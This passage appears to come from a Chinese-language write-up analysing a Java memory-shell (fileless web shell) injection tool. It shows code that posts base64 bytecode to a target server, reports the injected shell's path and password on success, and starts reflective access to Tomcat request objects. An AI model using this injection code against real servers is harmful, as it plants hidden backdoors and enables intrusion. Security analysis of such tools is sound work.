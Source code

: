       13.                 String postString = "dy=" + b64Bytecode;
    
      14.                 String result = this.bodyHttpRequest(header, postString);
    
      15.                 //返回Success则代表注入成功
    
      16.                 if (result.contains("->|Success|<-")) {
    
      17.                     String httpAddress = Utils.UrlToDomain(this.url);
    
      18.                     this.mainController.InjOutputArea.appendText(Utils.log(memShellType + "  注入成功!"));
    
      19.                     this.mainController.InjOutputArea.appendText(Utils.log("路径：" + httpAddress + shellPath));
    
      20.                     if (!memShellType.equals("reGeorg[Servlet]")) {
    
      21.                         this.mainController.InjOutputArea.appendText(Utils.log("密码：" + shellPass));
    
      22.                     }
    
      23.                 } else {
    
      24.                     if (result.contains("->|") && result.contains("|<-")) {
    
      25.                         this.mainController.InjOutputArea.appendText(Utils.log(result));
    
      26.                     }
    
      27.                     this.mainController.InjOutputArea.appendText(Utils.log("注入失败,请更换注入类型或者更换新路径"));
    
      28.                 }
    
      29.             } catch (Exception var10) {
    
      30.                 this.mainController.InjOutputArea.appendText(Utils.log(var10.getMessage()));
    
      31.             }
    
      32.             this.mainController.InjOutputArea.appendText(Utils.log("-------------------------------------------------"));
    
      33.         }
    
      34.     }
    
    
    

下面我们看下`InjectMemTool`的内容，下面是`InjectMemTool`构造方法的内容，前面内容和`Tomcat`回显的内容相同，从线程数组中获取request和response对象，我没有在代码中给出来。

    
          1. o = getFV(p, \"req\");
    
      2.     resp = o.getClass().getMethod(\"getResponse\", new Class[0]).invoke(o, new Object[0]);
    
      3.   
    
    
      4.                         Object conreq = o.getClass().getMethod(\"getNote\", new Class[]{int.class}).invoke(o, new Object[]{new Integer(1)});
    